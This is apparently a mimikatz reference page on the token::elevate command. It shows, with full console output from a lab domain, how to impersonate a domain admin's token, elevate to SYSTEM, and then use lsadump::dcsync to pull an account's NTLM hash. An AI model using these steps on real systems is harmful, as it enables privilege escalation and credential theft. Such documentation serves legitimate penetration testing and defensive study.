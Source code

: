 # elevate

`token::elevate` can be used to impersonate a token. By default it will elevate permissions to `NT AUTHORITY\SYSTEM`. It has the following command line arguments:

* `/id`: Impersonate the specified token
* `/process`: Impersonate the token of the running process
* `/user`: Impersonate the token of the specified user
* `/admin`: Impersonate a token of builtin local administrators
* `/domainadmin`: Impersonate a token with Domain Admin privileges
* `/enterpriseadmin`: Impersonate a token with Enterprise Admin privileges
* `/localservice`: `NT AUTHORITY\LOCAL SERVICE` token impersonation
* `/networkservice`: `NT AUTHORITY\NETWORK SERVICE` token impersonation

## Impersonate Token in a New Thread

List current token:

```
mimikatz # token::whoami
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : no token
```

The output shows:

- The primary (process) token belongs to the current user.
- There is no impersonation (thread) token.

List tokens of user to impersonate:

```
mimikatz # token::list /user:ffast
Token Id  : 0
User name : ffast
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
4432    {0;000563b2} 2 F 2839551        winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
668     {0;00050574} 0 D 329079         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (12g,24p)       Impersonation (Impersonation)
668     {0;000563e4} 2 L 353269         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
800     {0;000563e4} 2 L 456098         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 380750         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
920     {0;000563e4} 2 L 387116         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,01p)       Impersonation (Identification)
920     {0;000563e4} 2 L 436160         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,02p)       Impersonation (Impersonation)
[...]
```

Use a primary token of the target user (one that is linked to a logonsession):

```
mimikatz # token::elevate /id:457263
Token Id  : 457263
User name :
SID name  :
 
5332    {0;000563b2} 2 F 457263         winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Primary
 -> Impersonated !
 * Process Token : {0;000831c5} 3 F 2396391     SERVER01\tmassie    S-1-5-21-755659916-1915924768-2761631771-1001   (15g,24p)       Primary
 * Thread Token  : {0;000563b2} 2 F 3874634     winattacklab\ffast     S-1-5-21-1345929560-157546789-2569868433-1123   (15g,24p)       Impersonation (Delegation)
```

The output shows:

- The primary (process) token is still the same of the initial user. The `token::elevate` command will not change the primary token.
- There is now a new impersonation (thread) token for the impersonated user. The impersonation level is `delegation`. It's therefore possible to use the token in a new thread and access local and remote resources.
- It's not possible to start a new command (`misc::cmd`) as the impersonated user, because the impersonated token is an impersonation token and no process token.
- All mimikatz commands are now using the impersonation token for new threads.

After impersonating the the user (who is domain admin), it's e.g. possible to use `lsadump::dcsync`:

```
mimikatz # lsadump::dcsync /user:cclear
[DC] 'winattacklab.local' will be the domain
[DC] 'DC1.winattacklab.local' will be the DC server
[DC] 'cclear' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : Celaine Clear

** SAM ACCOUNT **

SAM Username         : cclear
User Principal Name  : cclear@winattacklab.local
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 5/31/2023 6:51:25 AM
Object Security ID   : S-1-5-21-1345929560-157546789-2569868433-1117
Object Relative ID   : 1117

Credentials:
  Hash NTLM: 760ca1371ac4c506d31b5ec1a09f806d
[...]
```

## Other Examples

By default, `token::elevate` elevates to `SYSTEM`:

```
mimikatz # token::elevate
Token Id  : 0
User name :
SID name  : NT AUTHORITY\SYSTEM

752     {0;000003e7} 0 D 44299          NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Primary
 -> Impersonated !
 * Process Token : {0;002cfce0} 4 F 62374281    hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730  (13g,24p)       Primary
 * Thread Token  : {0;000003e7} 0 D 62721950    NT AUTHORITY\SYSTEM     S-1-5-18        (04g,31p)       Impersonation (Delegation)
```

- All mimikatz commands (new threads) are therefore executed as `SYSTEM`.

Elevate to any logged in domain admin:

```
mimikatz # token::elevate /domainadmin
Token Id  : 0
User name :
SID name  : hacklab\Domain Admins

4512    {0;0007212c} 2 D 476947         hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500   (29g,26p)       Primary
 -> Impersonated !
 * Process Token : {0;080fd6c8} 3 F 137701065   hacklab\m3g9tr0n        S-1-5-21-2725560159-1428537199-2260736313-1730
(15g,26p)       Primary
 * Thread Token  : {0;0007212c} 2 D 137785083   hacklab\Administrator   S-1-5-21-2725560159-1428537199-2260736313-500
(29g,26p)       Impersonation (Delegation)
```
